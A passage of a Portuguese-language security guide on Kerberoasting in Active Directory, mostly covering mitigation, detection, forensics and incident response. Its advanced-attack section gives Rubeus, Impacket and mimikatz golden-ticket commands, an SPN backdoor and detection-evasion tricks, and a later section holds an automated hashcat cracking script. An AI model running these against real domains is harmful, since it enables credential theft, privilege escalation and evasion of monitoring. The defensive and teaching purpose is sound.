# Delegar permissões específicas apenas onde necessário
# Usar dsacls, Set-Acl, ou GUI do AD para configurar ACLs específicas
```

### 7.6 Remover SPNs Desnecessários

**Auditar SPNs:**
```powershell
# Listar todos os SPNs
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName |
  Select-Object Name, @{N='SPNs';E={$_.ServicePrincipalName -join '; '}}

# SPNs duplicados (problemático)
Get-ADObject -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName |
  ForEach-Object {$_.ServicePrincipalName} | Group-Object | Where-Object {$_.Count -gt 1}
```

**Remover SPNs não utilizados:**
```powershell
# Remover SPN específico
Set-ADUser -Identity "old-service-account" -ServicePrincipalNames @{Remove="HTTP/oldapp.empresa.local"}

# Limpar todos os SPNs de conta desabilitada
$user = Get-ADUser "old-svc" -Properties ServicePrincipalName
Set-ADUser $user -ServicePrincipalNames @{Remove=$user.ServicePrincipalName}
```

### 7.7 Segmentação de Rede

**Implementar micro-segmentação:**
- Restringir acesso ao DC (porta 88/TCP) apenas para hosts necessários
- Usar Windows Firewall com regras específicas
- Implementar 802.1X para controle de acesso à rede

**Exemplo de regra de firewall:**
```powershell
# Permitir Kerberos apenas de subnets autorizadas
New-NetFirewallRule -DisplayName "Kerberos - Restrict to Authorized Subnets" `
  -Direction Inbound -Protocol TCP -LocalPort 88 `
  -RemoteAddress 10.10.10.0/24,10.10.20.0/24 -Action Allow

New-NetFirewallRule -DisplayName "Kerberos - Block Others" `
  -Direction Inbound -Protocol TCP -LocalPort 88 `
  -Action Block -Priority 1
```

### 7.8 Hardening de Active Directory

**Implementar Microsoft LAPS:**
- Gerencia senhas de administrador local
- Previne movimentação lateral
```powershell
Install-Module -Name AdmPwd.PS
Import-Module AdmPwd.PS
Update-AdmPwdADSchema
```

**Protected Users Security Group:**
- Membros não podem usar RC4, DES, NTLM
- Tickets TGT não renováveis além de 4 horas
- Não cacheável via Credential Guard

```powershell
Add-ADGroupMember -Identity "Protected Users" -Members "admin-account"
```

**Tiering Model (Red Forest):**
- Tier 0: Domain Controllers, Admin accounts
- Tier 1: Servers
- Tier 2: Workstations
- Previne escalação de privilégios entre tiers

### 7.9 Rotação Regular de Senhas

**Implementar rotação automática:**
```powershell
# Script de rotação programada
$ServiceAccounts = Get-ADUser -Filter {ServicePrincipalName -like "*" -and Enabled -eq $true}

foreach ($account in $ServiceAccounts) {
    $LastSet = $account.PasswordLastSet
    $DaysSinceChange = (New-TimeSpan -Start $LastSet -End (Get-Date)).Days
    
    if ($DaysSinceChange -gt 90) {
        # Gerar nova senha
        $NewPassword = [System.Web.Security.Membership]::GeneratePassword(32,10)
        Set-ADAccountPassword -Identity $account -NewPassword (ConvertTo-SecureString $NewPassword -AsPlainText -Force) -Reset
        
        # Armazenar em cofre de senhas (ex: CyberArk, Azure Key Vault)
        # Store-Password -Account $account.SamAccountName -Password $NewPassword
        
        # Notificar responsáveis
        Send-MailMessage -To "admin@empresa.local" -Subject "Password rotated for $($account.Name)" -Body "Update service configuration"
    }
}
```

### 7.10 Checklist de Mitigação

**Curto Prazo (0-30 dias):**
- [ ] Auditar todas as contas com SPNs
- [ ] Identificar service accounts em grupos privilegiados
- [ ] Implementar senhas complexas (25+ caracteres) em todas as service accounts
- [ ] Habilitar auditoria de Kerberos (Event ID 4769)
- [ ] Configurar alertas para atividades suspeitas
- [ ] Criar honey service accounts

**Médio Prazo (30-90 dias):**
- [ ] Migrar service accounts elegíveis para gMSA
- [ ] Desabilitar RC4 em todo o domínio (após testes)
- [ ] Forçar AES256 para todas as contas com SPNs
- [ ] Implementar Fine-Grained Password Policies
- [ ] Remover privilégios excessivos de service accounts
- [ ] Implementar rotação regular de senhas

**Longo Prazo (90+ dias):**
- [ ] Implementar tiering model completo
- [ ] Migrar para arquitetura Red Forest se necessário
- [ ] Implementar PAM (Privileged Access Management)
- [ ] Integrar com SIEM/SOAR para resposta automatizada
- [ ] Treinar equipe de SOC em detecção de Kerberoasting
- [ ] Realizar purple team exercises regularmente

---

## 8. Técnicas Avançadas de Ataque

### 8.1 Targeted Kerberoasting

Em vez de solicitar todos os SPNs, o atacante identifica alvos de alto valor:

```powershell
# Encontrar service accounts que são Domain Admins
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties MemberOf |
  Where-Object {$_.MemberOf -match "Domain Admins"} |
  ForEach-Object {
    Rubeus.exe kerberoast /user:$_.SamAccountName
  }
```

### 8.2 Kerberoasting sem Privilegios de Rede

**Roasting via Compromised Web Application:**
- Aplicação web com autenticação AD pode ser usada
- Explorar SSRF ou RCE para executar comandos
- Exfiltrar tickets via canais existentes

```csharp
// C# code injection
using System.IdentityModel.Tokens;
var token = new KerberosRequestorSecurityToken("MSSQLSvc/sql01.empresa.local");
```

### 8.3 Kerberoasting em Ambientes Cloud

**Azure AD Connect Sync Accounts:**
- Contas de sincronização podem ter SPNs
- Frequentemente têm privilégios elevados

**Hybrid Environments:**
```powershell
# Enumerar SPNs via Azure AD PowerShell
Connect-AzureAD
Get-AzureADUser -All $true | Where-Object {$_.ServicePrincipalNames -ne $null}
```

### 8.4 AS-REP Roasting Combinado

Combinar com AS-REP Roasting para maximizar coleta de hashes:

```bash
# GetNPUsers.py para contas sem pré-autenticação
python GetNPUsers.py DOMAIN/ -usersfile users.txt -dc-ip 10.10.10.10

# Kerberoasting
python GetUserSPNs.py -request DOMAIN/user:pass -dc-ip 10.10.10.10
```

### 8.5 Persistence via Service Account Compromise

Após comprometer service account:

**Criar SPN Backdoor:**
```powershell
# Adicionar SPN a conta controlada
Set-ADUser -Identity "compromised-user" -ServicePrincipalNames @{Add="HTTP/backdoor.empresa.local"}

# Agora pode ser kerberoasted por outros atacantes da mesma equipe
```

**Golden Ticket com Service Account:**
```cmd
# Se service account tem privilégios para criar Golden Tickets
mimikatz # kerberos::golden /user:Administrator /domain:empresa.local /sid:S-1-5-21-... /krbtgt:HASH /id:500
```

### 8.6 Evasão de Detecção

**Throttling de Requisições:**
```python
import time
for spn in spn_list:
    # Solicitar ticket
    request_ticket(spn)
    # Aguardar intervalo aleatório
    time.sleep(random.randint(300, 600))  # 5-10 minutos
```

**Time-based Attacks:**
- Realizar ataques durante horários de pico
- Misturar com tráfego legítimo
- Distribuir requisições por múltiplas contas

**Proxy/VPN Rotation:**
```bash
# Rotacionar IPs usando proxychains
proxychains python GetUserSPNs.py -request DOMAIN/user:pass
```

---

## 9. Análise Forense e Resposta a Incidentes

### 9.1 Identificação de Comprometimento

**Indicadores de Kerberoasting Bem-Sucedido:**

1. **Event Logs:**
```powershell
# Identificar padrões de múltiplas requisições TGS
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} |
  Where-Object {$_.TimeCreated -gt (Get-Date).AddHours(-24)} |
  Group-Object {$_.Properties[0].Value} |
  Where-Object {$_.Count -gt 15} |
  Select-Object Name, Count |
  Sort-Object Count -Descending
```

2. **Tickets em Cache:**
```cmd
# Verificar tickets Kerberos em sistema comprometido
klist

# Procurar por múltiplos tickets de serviço
klist | findstr /i "Service"
```

3. **Análise de Memória:**
```powershell
# Usando Volatility para análise de dump de memória
volatility -f memory.dmp --profile=Win10x64 kerberos
```

### 9.2 Coleta de Evidências

**Logs críticos para preservar:**
```powershell
# Exportar Security logs
wevtutil epl Security C:\Forensics\Security_$(Get-Date -Format yyyyMMdd_HHmmss).evtx

# Exportar com filtro específico
wevtutil qe Security /q:"*[System[(EventID=4769)]]" /f:text > C:\Forensics\4769_events.txt

# PowerShell history
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

**Artifacts de ferramentas:**
```powershell
# Procurar por ferramentas conhecidas
Get-ChildItem -Path C:\ -Recurse -Include "*rubeus*","*mimikatz*","*kerberoast*","*invoke-kerberoast*" -ErrorAction SilentlyContinue

# Verificar execução recente
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104} |
  Where-Object {$_.Message -match "Invoke-Kerberoast|Rubeus|GetUserSPNs"}
```

**Network traffic:**
```bash
# Analisar pcap para Kerberos traffic
tshark -r capture.pcap -Y "kerberos.msg_type == 12 or kerberos.msg_type == 13" -T fields -e frame.time -e ip.src -e ip.dst -e kerberos.SNameString
```

### 9.3 Timeline Reconstruction

```powershell
# Reconstruir timeline de ataque
$Events = @()

# 4768: TGT Request (autenticação inicial)
$Events += Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4768} |
  Where-Object {$_.TimeCreated -gt $IncidentStart} |
  Select-Object TimeCreated, @{N='Event';E={'TGT Request'}}, @{N='User';E={$_.Properties[0].Value}}

# 4769: TGS Request (kerberoasting)
$Events += Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} |
  Where-Object {$_.TimeCreated -gt $IncidentStart} |
  Select-Object TimeCreated, @{N='Event';E={'TGS Request'}}, @{N='User';E={$_.Properties[0].Value}}, @{N='Service';E={$_.Properties[1].Value}}

# 4624: Successful Logon (pós-comprometimento)
$Events += Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4624; LogonType=3} |
  Where-Object {$_.TimeCreated -gt $IncidentStart} |
  Select-Object TimeCreated, @{N='Event';E={'Network Logon'}}, @{N='User';E={$_.Properties[5].Value}}

$Events | Sort-Object TimeCreated | Export-Csv C:\Forensics\Timeline.csv -NoTypeInformation
```

### 9.4 Contenção

**Ações imediatas:**

1. **Reset de senha da conta comprometida:**
```powershell
Set-ADAccountPassword -Identity "svc-sql-compromised" -Reset -NewPassword (ConvertTo-SecureString "TempC0mplex!Pass#2024xyz" -AsPlainText -Force)

# Forçar logoff de todas as sessões
Invoke-Command -ComputerName (Get-ADComputer -Filter *).Name -ScriptBlock {
    query user | Select-String "svc-sql-compromised" | ForEach-Object {
        logoff ($_ -split '\s+')[2]
    }
}
```

2. **Revogar tickets Kerberos:**
```powershell
# Incrementar msDS-KeyVersionNumber força invalidação de tickets
Set-ADUser -Identity "svc-sql-compromised" -Replace @{"msDS-KeyVersionNumber"=((Get-ADUser "svc-sql-compromised" -Properties "msDS-KeyVersionNumber")."msDS-KeyVersionNumber" + 1)}
```

3. **Bloquear acesso de IPs suspeitos:**
```powershell
# Adicionar regra de firewall
New-NetFirewallRule -DisplayName "Block Malicious IP" -Direction Inbound -RemoteAddress 192.168.1.100 -Action Block
```

4. **Isolar sistemas comprometidos:**
```powershell
# Desabilitar interfaces de rede remotamente
Invoke-Command -ComputerName COMPROMISED-HOST -ScriptBlock {
    Get-NetAdapter | Disable-NetAdapter -Confirm:$false
}
```

### 9.5 Erradicação

**Remover persistência:**
```powershell
# Procurar por scheduled tasks maliciosas
Get-ScheduledTask | Where-Object {$_.Actions.Execute -match "powershell|cmd|wscript"} |
  Where-Object {$_.Author -notmatch "Microsoft|Administrator"}

# Procurar por serviços suspeitos
Get-Service | Where-Object {$_.DisplayName -match "Update|Updater|Service"} |
  Where-Object {$_.ServiceName -notmatch "^wu|^Windows"}

# Verificar startup items
Get-CimInstance Win32_StartupCommand | Select-Object Name, Command, Location, User
```

**Verificar alterações em AD:**
```powershell
# Verificar SPNs adicionados recentemente
Get-ADObject -Filter {ServicePrincipalName -like "*"} -Properties whenChanged, ServicePrincipalName |
  Where-Object {$_.whenChanged -gt (Get-Date).AddDays(-7)} |
  Select-Object Name, ServicePrincipalName, whenChanged

# Verificar mudanças de grupo
Get-ADGroup "Domain Admins" -Properties whenChanged, member |
  Select-Object whenChanged, @{N='Members';E={$_.member}}
```

### 9.6 Recuperação

**Plano de recuperação:**

1. **Reset massivo de senhas de service accounts:**
```powershell
$ServiceAccounts = Get-ADUser -Filter {ServicePrincipalName -like "*"}
foreach ($account in $ServiceAccounts) {
    $newPass = [System.Web.Security.Membership]::GeneratePassword(32,10)
    Set-ADAccountPassword -Identity $account -Reset -NewPassword (ConvertTo-SecureString $newPass -AsPlainText -Force)
    
    # Documentar em vault seguro
    "$($account.Name),$newPass" | Out-File C:\Secure\PasswordResets.txt -Append
}
```

2. **Atualizar configurações de serviços:**
```powershell
# Exemplo para SQL Server (adaptar conforme necessário)
$service = Get-Service MSSQLSERVER
Stop-Service $service
$newCred = Get-Credential "DOMAIN\svc-sql"
$service | Set-Service -Credential $newCred
Start-Service $service
```

3. **Reforçar monitoramento:**
```powershell
# Criar alerta específico pós-incidente
$Action = New-ScheduledTaskAction -Execute 'PowerShell.exe' -Argument '-Command "Get-WinEvent -FilterHashtable @{LogName=\"Security\"; ID=4769; StartTime=(Get-Date).AddMinutes(-5)} | Where-Object {\$_.Properties[0].Value -match \"svc-\"} | Export-Csv C:\Monitoring\Kerberos_$(Get-Date -Format yyyyMMdd).csv -Append"'
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5)
Register-ScheduledTask -TaskName "Enhanced Kerberos Monitoring" -Action $Action -Trigger $Trigger
```

### 9.7 Lessons Learned

**Documentação pós-incidente:**
```markdown
# Incident Report: Kerberoasting Attack

## Executive Summary
- Date: [data]
- Duration: [tempo de comprometimento]
- Accounts affected: [número]
- Impact: [descrição]

## Attack Vector
- Initial access: [como]
- Propagation: [lateral movement]
- Exfiltration: [dados comprometidos]

## Root Cause
- Weak passwords on service accounts
- Lack of monitoring for Event ID 4769
- RC4 encryption enabled

## Remediation Actions
1. [ação 1]
2. [ação 2]
...

## Preventive Measures
- Implement gMSA
- Disable RC4
- Enhanced monitoring
- Security awareness training

## Cost Analysis
- Direct costs: $X
- Downtime: Y hours
- Reputation impact: [avaliação]
```

---

## 10. Ferramentas e Scripts Úteis

### 10.1 Scripts de Detecção

**PowerShell - Auditoria Completa de SPNs:**
```powershell
function Get-KerberoastableAccounts {
    [CmdletBinding()]
    param(
        [Parameter()][int]$PasswordAgeDays = 365,
        [Parameter()][int]$MinPasswordLength = 25
    )
    
    $KerberoastableUsers = Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties `
        ServicePrincipalName, PasswordLastSet, PasswordNeverExpires, Enabled, `
        MemberOf, Description, Created, LastLogonDate, msDS-SupportedEncryptionTypes
    
    $Results = @()
    
    foreach ($user in $KerberoastableUsers) {
        $PasswordAge = (New-TimeSpan -Start $user.PasswordLastSet -End (Get-Date)).Days
        $IsHighValue = $user.MemberOf -match "Admin|Privileged"
        
        $EncTypes = $user.'msDS-SupportedEncryptionTypes'
        $UsesRC4 = ($EncTypes -band 0x04) -or ($EncTypes -eq $null)
        
        $Risk = "Low"
        if ($PasswordAge -gt $PasswordAgeDays -and $UsesRC4) { $Risk = "Critical" }
        elseif ($PasswordAge -gt $PasswordAgeDays -or $UsesRC4) { $Risk = "High" }
        elseif ($IsHighValue) { $Risk = "Medium" }
        
        $Results += [PSCustomObject]@{
            SamAccountName = $user.SamAccountName
            SPNs = ($user.ServicePrincipalName -join "; ")
            PasswordAge = $PasswordAge
            PasswordNeverExpires = $user.PasswordNeverExpires
            UsesRC4 = $UsesRC4
            IsHighValue = $IsHighValue
            Enabled = $user.Enabled
            LastLogon = $user.LastLogonDate
            RiskLevel = $Risk
        }
    }
    
    return $Results | Sort-Object RiskLevel -Descending
}

# Executar
Get-KerberoastableAccounts | Export-Csv C:\Audit\KerberoastRisk.csv -NoTypeInformation
Get-KerberoastableAccounts | Where-Object {$_.RiskLevel -eq "Critical"} | Format-Table -AutoSize
```

**Python - Monitor em Tempo Real:**
```python
#!/usr/bin/env python3
import win32evtlog
import win32evtlogutil
import win32con
from collections import defaultdict
from datetime import datetime, timedelta
import time

def monitor_kerberoasting(threshold=10, time_window=5):
    """
    Monitora Event ID 4769 para detectar Kerberoasting
    threshold: número de requisições TGS únicas
    time_window: janela de tempo em minutos
    """
    server = 'localhost'
    logtype = 'Security'
    hand = win32evtlog.OpenEventLog(server, logtype)
    flags = win32evtlog.EVENTLOG_BACKWARDS_READ | win32evtlog.EVENTLOG_SEQUENTIAL_READ
    
    user_requests = defaultdict(lambda: {'count': 0, 'services': set(), 'first_seen': None})
    
    print(f"[*] Monitoring for Kerberoasting (threshold: {threshold} requests in {time_window} min)")
    
    while True:
        events = win32evtlog.ReadEventLog(hand, flags, 0)
        
        for event in events:
            if event.EventID == 4769:
                # Extrair dados do evento
                event_time = event.TimeGenerated
                data = win32evtlogutil.SafeFormatMessage(event, logtype)
                
                # Parse dos campos (adaptação necessária)
                # account_name = ...
                # service_name = ...
                
                # Lógica de detecção
                # if user_requests[account_name]['count'] > threshold:
                #     alert(account_name, user_requests[account_name])
        
        time.sleep(10)

if __name__ == "__main__":
    monitor_kerberoasting()
```

### 10.2 Scripts de Remediação

**PowerShell - Implementação em Massa de gMSA:**
```powershell
function Convert-ToGMSA {
    [CmdletBinding()]
    param(
        [Parameter(Mandatory)][string]$ServiceAccount,
        [Parameter(Mandatory)][string[]]$AllowedHosts
    )
    
    # Obter informações da conta atual
    $oldAccount = Get-ADUser $ServiceAccount -Properties ServicePrincipalName, MemberOf
    
    # Criar grupo de hosts permitidos
    $groupName = "gMSA-$ServiceAccount-Hosts"
    New-ADGroup -Name $groupName -GroupScope DomainLocal -GroupCategory Security
    
    foreach ($host in $AllowedHosts) {
        $computer = Get-ADComputer $host
        Add-ADGroupMember -Identity $groupName -Members $computer
    }
    
    # Criar gMSA
    $gmsaName = "gMSA-$ServiceAccount"
    New-ADServiceAccount -Name $gmsaName `
        -DNSHostName "$gmsaName.$env:USERDNSDOMAIN" `
        -ServicePrincipalNames $oldAccount.ServicePrincipalName `
        -PrincipalsAllowedToRetrieveManagedPassword $groupName
    
    Write-Host "[+] gMSA $gmsaName created successfully"
    Write-Host "[!] Manual steps required:"
    Write-Host "    1. Install gMSA on target hosts: Install-ADServiceAccount $gmsaName"
    Write-Host "    2. Update service configuration to use $gmsaName"
    Write-Host "    3. Test service functionality"
    Write-Host "    4. Disable old account: Disable-ADAccount $ServiceAccount"
}

# Exemplo de uso
Convert-ToGMSA -ServiceAccount "svc-sql" -AllowedHosts @("SQL01", "SQL02")
```

**Bash - Cracking Automatizado com Hashcat:**
```bash
#!/bin/bash
# kerberoast-crack.sh

HASH_FILE=$1
WORDLIST="/usr/share/wordlists/rockyou.txt"
OUTPUT_DIR="./cracked"
RULES="/usr/share/hashcat/rules/best64.rule"

mkdir -p $OUTPUT_DIR

# Identificar tipo de hash
echo "[*] Identifying hash types..."
hashcat --identify $HASH_FILE

# Extrair RC4 hashes (mais fáceis)
grep '\$krb5tgs\$23' $HASH_FILE > ${OUTPUT_DIR}/rc4_hashes.txt

# Extrair AES hashes
grep -E '\$krb5tgs\$(17|18)' $HASH_FILE > ${OUTPUT_DIR}/aes_hashes.txt

# Crack RC4 com wordlist
echo "[*] Cracking RC4 hashes with wordlist..."
hashcat -m 13100 -a 0 ${OUTPUT_DIR}/rc4_hashes.txt $WORDLIST -o ${OUTPUT_DIR}/cracked_rc4.txt

# Crack RC4 com regras
echo "[*] Cracking RC4 hashes with rules..."
hashcat -m 13100 -a 0 ${OUTPUT_DIR}/rc4_hashes.txt $WORDLIST -r $RULES -o ${OUTPUT_DIR}/cracked_rc4_rules.txt

# Crack AES256 (mais lento)
echo "[*] Cracking AES256 hashes (this will take longer)..."
hashcat -m 19700 -a 0 ${OUTPUT_DIR}/aes_hashes.txt $WORDLIST -o ${OUTPUT_DIR}/cracked_aes.txt

# Resumo
echo "[+] Cracking complete! Results:"
hashcat -m 13100 ${OUTPUT_DIR}/rc4_hashes.txt --show
hashcat -m 19700 ${OUTPUT_DIR}/aes_hashes.txt --show
```

---

## 11. Conclusão

O Kerberoasting representa uma ameaça significativa e persistente para ambientes Active Directory, explorando características fundamentais do protocolo Kerberos que não podem ser facilmente alteradas sem quebrar a compatibilidade. A técnica é particularmente perigosa porque:

1. **Requer apenas privilégios mínimos** - qualquer usuário de domínio pode executar
2. **Difícil de detectar** - comportamento pode parecer legítimo
3. **Ataque offline** - cracking ocorre fora da rede corporativa
4. **Alta taxa de sucesso** - muitas organizações têm service accounts com senhas fracas

### 11.1 Principais Takeaways

**Para Defensores:**
- Implementar gMSA sempre que possível
- Forçar senhas longas (30+ caracteres) em service accounts
- Desabilitar RC4 e forçar AES256
- Monitorar Event ID 4769 com alertas baseados em comportamento
- Aplicar princípio de least privilege rigorosamente
- Realizar auditorias regulares de SPNs e service accounts
- Implementar honey accounts para detecção precoce

**Para Auditores e Red Teams:**
- Kerberoasting deve ser parte de toda avaliação de segurança AD
- Combinar com outras técnicas (AS-REP Roasting, password spraying)
- Focar em contas de alto valor e lateral movement paths
- Documentar achados com evidências e impacto de negócio

**Para Gestores de Segurança:**
- Investir em PAM (Privileged Access Management)
- Priorizar migração para gMSA em roadmap de segurança
- Implementar SIEM com casos de uso específicos para Kerberoasting
- Treinar equipes em detecção e resposta
- Considerar arquiteturas modernas (Zero Trust, Red Forest)

### 11.2 O Futuro da Defesa contra Kerberoasting

**Tendências Emergentes:**

1. **Machine Learning para Detecção:**
   - Análise comportamental de padrões de requisição TGS
   - Detecção de anomalias em tempo real
   - Redução de falsos positivos através de baseline automatizado

2. **Autenticação sem Senha:**
   - Windows Hello for Business
   - FIDO2 tokens
   - Certificate-based authentication
   - Reduz dependência de senhas fracas

3. **Kerberos Armoring:**
   - FAST (Flexible Authentication Secure Tunneling)
   - Proteção adicional para tráfego Kerberos
   - Dificulta ataques man-in-the-middle

4. **Cloud-Native Security:**
   - Azure AD com Conditional Access
   - Proteção avançada contra ataques de identidade
   - Integração com threat intelligence

### 11.3 Recursos Adicionais

**Documentação Oficial:**
- Microsoft: "Kerberos Authentication Overview" - https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview
- MITRE ATT&CK: T1558.003 - Steal or Forge Kerberos Tickets: Kerberoasting
- NIST SP 800-63B: Digital Identity Guidelines

**Ferramentas:**
- Rubeus: https://github.com/GhostPack/Rubeus
- Impacket: https://github.com/SecureAuthCorp/impacket
- PowerView: https://github.com/PowerShellMafia/PowerSploit
- BloodHound: https://github.com/BloodHoundAD/BloodHound
- Hashcat: https://hashcat.net/hashcat/

**Papers e Apresentações:**
- Tim Medin - "Attacking Microsoft Kerberos: Kicking the Guard Dog of Hades" (DerbyCon 2014)
- Sean Metcalf - "Kerberos & Attacks 101" (Black Hat USA)
- Will Schroeder & Matt Graeber - "An ACE Up the Sleeve" (Black Hat USA 2017)

**Cursos e Certificações:**
- SANS SEC560: Network Penetration Testing and Ethical Hacking
- Offensive Security OSEP: Experienced Penetration Tester
- GIAC GPEN: Penetration Tester Certification
- eLearnSecurity eCPTX: Certified Penetration Tester eXtreme

### 11.4 Matriz de Decisão para Priorização

| Cenário | Risco | Prioridade | Ação Recomendada |
|---------|-------|------------|------------------|
| Service account em Domain Admins com senha antiga (>1 ano) e RC4 | **CRÍTICO** | P0 (Imediato) | Reset senha imediato, remover de DA, migrar para gMSA, habilitar AES |
| Service account com privilégios elevados, senha <1 ano, RC4 | **ALTO** | P1 (1-7 dias) | Trocar senha, forçar AES, avaliar gMSA, reduzir privilégios |
| Service account regular com senha complexa mas RC4 | **MÉDIO** | P2 (1-30 dias) | Forçar AES, aumentar complexidade, monitorar |
| Service account com gMSA e AES256 | **BAIXO** | P3 (Manutenção) | Revisar privilégios, manter monitoramento |

### 11.5 Checklist de Auditoria Kerberoasting

**Identificação:**
- [ ] Enumerar todas as contas com SPNs no domínio
- [ ] Identificar contas com RC4 habilitado
- [ ] Mapear service accounts em grupos privilegiados
- [ ] Verificar idade das senhas (>90 dias = crítico)
- [ ] Identificar contas com PasswordNeverExpires = true
- [ ] Listar SPNs duplicados ou órfãos

**Avaliação de Risco:**
- [ ] Classificar contas por criticidade (Tier 0, 1, 2)
- [ ] Avaliar superfície de ataque (quantas contas kerberoastable?)
- [ ] Testar cracking de hashes em ambiente controlado
- [ ] Identificar caminhos de escalação de privilégios via BloodHound
- [ ] Documentar contas que não podem migrar para gMSA

**Remediação:**
- [ ] Criar plano de migração para gMSA (timeline, responsáveis)
- [ ] Implementar senhas complexas (30+ chars) em contas não-gMSA
- [ ] Desabilitar RC4 globalmente (ou por OU específica)
- [ ] Remover privilégios excessivos de service accounts
- [ ] Implementar rotação automática de senhas
- [ ] Criar honey accounts para detecção

**Monitoramento:**
- [ ] Habilitar auditoria de Event ID 4769, 4768
- [ ] Configurar alertas para múltiplas requisições TGS (>10 em 5 min)
- [ ] Alertar sobre requisições RC4 se domínio é AES-only
- [ ] Integrar logs com SIEM
- [ ] Criar dashboard de monitoramento contínuo
- [ ] Estabelecer baseline de comportamento normal

**Testes:**
- [ ] Realizar purple team exercise focado em Kerberoasting
- [ ] Validar detecção com ferramenta (Rubeus, Impacket)
- [ ] Testar tempo de resposta da equipe SOC
- [ ] Verificar efetividade de alertas
- [ ] Documentar falsos positivos e ajustar regras

### 11.6 Cálculo de Tempo de Cracking

Para entender a urgência da remediação, é útil estimar o tempo necessário para quebrar senhas:

**RC4-HMAC (mais vulnerável):**
- GPU: NVIDIA RTX 4090 (~450 GH/s para MD4/NTLM)
- Senha 8 caracteres (complexa): segundos a minutos
- Senha 10 caracteres (complexa): horas a dias
- Senha 15 caracteres (complexa): anos
- Senha 25+ caracteres: praticamente impossível com força bruta

**AES256 (mais seguro):**
- Significativamente mais lento devido a PBKDF2
- Senha 8 caracteres: minutos a horas
- Senha 10 caracteres: dias a semanas
- Senha 15+ caracteres: anos a décadas

**Fórmula Estimativa:**
```
Tempo = (Keyspace / Hash Rate) / 2  # /2 assume encontrar na metade em média

Keyspace exemplos:
- Letras minúsculas (26^n)
- Letras maiúsculas + minúsculas (52^n)
- Alfanumérico (62^n)
- Alfanumérico + especiais (~95^n)

Exemplo: 8 caracteres alfanuméricos
62^8 = 218,340,105,584,896 combinações
RTX 4090: ~450 GH/s
Tempo = 218,340,105,584,896 / (450,000,000,000 * 2) ≈ 243 segundos ≈ 4 minutos
```

**Takeaway:** Senhas de service accounts devem ter **mínimo 25 caracteres** para resistir a ataques com GPUs modernas.

### 11.7 Impacto Organizacional

**Custos de um Ataque Bem-Sucedido:**

1. **Diretos:**
   - Resposta a incidentes (time SOC, consultores externos)
   - Forense e investigação
   - Remediação e recuperação
   - Possíveis resgates em casos de ransomware subsequente

2. **Indiretos:**
   - Downtime de sistemas críticos
   - Perda de produtividade
   - Danos à reputação
   - Perda de confiança de clientes
   - Multas regulatórias (LGPD, GDPR, etc.)
   - Custos legais

3. **Estratégicos:**
   - Perda de vantagem competitiva
   - Exposição de propriedade intelectual
   - Comprometimento de estratégias de negócio

**ROI da Prevenção:**
- Investimento em gMSA: baixo (custo de implementação e treinamento)
- Investimento em monitoramento: médio (SIEM, ferramentas, pessoal)
- Benefício: evitar custos massivos de incidente (10-100x o investimento)

---

## 12. Casos de Uso Práticos

### 12.1 Cenário 1: Empresa de Médio Porte (500-2000 funcionários)

**Situação Inicial:**
- 45 service accounts com SPNs
- 30% usando RC4
- 60% com senhas >2 anos
- 5 service accounts em Domain Admins
- Sem monitoramento de Kerberos
- Orçamento limitado

**Plano de Remediação (90 dias):**

**Fase 1 (0-30 dias) - Vitórias Rápidas:**
```powershell
# Dia 1: Auditoria completa
Get-KerberoastableAccounts | Export-Csv audit.csv

# Dia 2-3: Ações críticas
# Remover service accounts de Domain Admins
$CriticalAccounts = Import-Csv audit.csv | Where-Object {$_.IsHighValue -eq $true}
foreach ($account in $CriticalAccounts) {
    Remove-ADGroupMember -Identity "Domain Admins" -Members $account.SamAccountName -Confirm:$false
}

# Dia 4-7: Reset de senhas críticas
foreach ($account in $CriticalAccounts) {
    $newPass = [System.Web.Security.Membership]::GeneratePassword(30,10)
    Set-ADAccountPassword -Identity $account.SamAccountName -NewPassword (ConvertTo-SecureString $newPass -AsPlainText -Force) -Reset
    # Armazenar em vault
}

# Dia 8-14: Implementar monitoramento básico
# Habilitar auditoria
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable

# Dia 15-30: Honey accounts
New-ADUser -Name "svc-backup-sql" -SamAccountName "svc-backup-sql" `
  -AccountPassword (ConvertTo-SecureString "SuperComplexPassword!2024#Impossible" -AsPlainText -Force) `
  -Enabled $true
Set-ADUser -Identity "svc-backup-sql" -ServicePrincipalNames @{Add="MSSQLSvc/honeypot-db.empresa.local:1433"}
```

**Fase 2 (30-60 dias) - Fortalecimento:**
- Desabilitar RC4 em test OU
- Implementar FGPP para service accounts
- Migrar 5 service accounts críticos para gMSA
- Configurar alertas básicos no SIEM

**Fase 3 (60-90 dias) - Consolidação:**
- Desabilitar RC4 globalmente
- Migrar mais 10 accounts para gMSA
- Purple team exercise
- Documentação e treinamento

**Resultado Esperado:**
- Redução de 80% no risco de Kerberoasting
- Tempo médio de detecção: <5 minutos
- 15 contas migradas para gMSA
- 100% das contas com senhas 25+ caracteres

### 12.2 Cenário 2: Instituição Financeira (Alta Segurança)

**Situação Inicial:**
- 200+ service accounts
- Compliance rigoroso (PCI-DSS, BACEN)
- Ambiente complexo com múltiplos domínios
- Já possui SIEM e equipe SOC madura

**Abordagem Avançada:**

**1. Análise de Risco Baseada em Dados:**
```python
# Script de scoring de risco
def calculate_risk_score(account):
    score = 0
    
    # Idade da senha
    if account['PasswordAge'] > 365:
        score += 40
    elif account['PasswordAge'] > 180:
        score += 20
    
    # Encryption
    if account['UsesRC4']:
        score += 30
    
    # Privilégios
    if 'Domain Admins' in account['Groups']:
        score += 30
    elif any(admin in account['Groups'] for admin in ['Enterprise Admins', 'Schema Admins']):
        score += 25
    elif any(priv in account['Groups'] for priv in ['Account Operators', 'Backup Operators']):
        score += 15
    
    # Complexity
    if account['PasswordLength'] < 15:
        score += 20
    elif account['PasswordLength'] < 25:
        score += 10
    
    # Uso
    if not account['LastLogon'] or (datetime.now() - account['LastLogon']).days > 90:
        score += 15  # Conta não usada = maior risco se comprometida
    
